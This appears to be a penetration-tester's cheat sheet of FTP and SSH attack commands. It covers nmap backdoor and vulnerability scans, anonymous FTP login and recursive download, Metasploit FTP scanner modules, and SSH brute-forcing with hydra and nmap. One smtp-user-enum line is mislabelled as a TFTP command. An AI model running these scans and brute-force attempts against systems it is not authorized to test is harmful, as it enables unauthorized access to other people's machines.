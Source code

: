 ## port 21  (ftp)

### nmap commands
    nmap -p 21 --script ftp* <ip>  
    nmap --script=ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-anon,ftp-libopie,,ftp-vuln-cve2010-4221,tftp-enum -p 21 -n -v -sV -Pn 192.168.1.10
    
    #Attempt Anon login:
    User: Anonymous
    Pass: Anonymous

    # For tftp
    smtp-user-enum -M VRFY -U /root/sectools/SecLists/Usernames/Names/names.txt -t 10.11.1.111

### Metasploit Modules for FTP service;
    auxiliary/scanner/ftp/anonymous
    auxiliary/scanner/ftp/ftp_login
    auxiliary/scanner/ftp/ftp_version
    auxiliary/scanner/ftp/konica_ftp_traversal
    
### recursive download files in FTP server 

    wget -m ftp://anonymous:1223@10.10.223.246
    wget -r ftp://anonymous:1223@10.10.223.246


## port 22 (ssh)
### Nmape & brute commands
```bash
    nmap -sV 192.168.31.205
    nmap -p 22 -n -v -sV  -sC -Pn --script ssh-auth-methods --script-args ssh.user=root 192.168.1.10
    nmap -p 22 -n -v -sV -Pn --script ssh-hostkey 192.168.1.10 
    nmap --script ssh-brute -p 22 192.168.31.205
    nmap -p 22 -n -v -sV -Pn --script ssh-brute --script-args userdb=user_list.txt,passdb=password_list.txt 192.168.1.10
    nmap -p 22 --script ssh* -oA ssh_scan <ip>
    ssh-vulnkey <ip> key.pub
    ssh-keyscan <ip>
    ssh user@IP
    ssh -i id_rsa user@IPHERE 
    hydra -L users.txt -P pass.txt 192.168.31.205 ssh 
    hydra -L users.txt -P pass.txt 192.168.31.205 ssh -s 2222 # -s specify port to be tested.
    ssh pentest@192.168.31.205
    ssh pentest@192.168.31.205 'ifconfig' # Running Commands in remote hosts
    nmap --script ssh-auth-methods --script-args="ssh.user=pentest" -p 22 192.168.31.205 # Test the auth method used in SSH
```
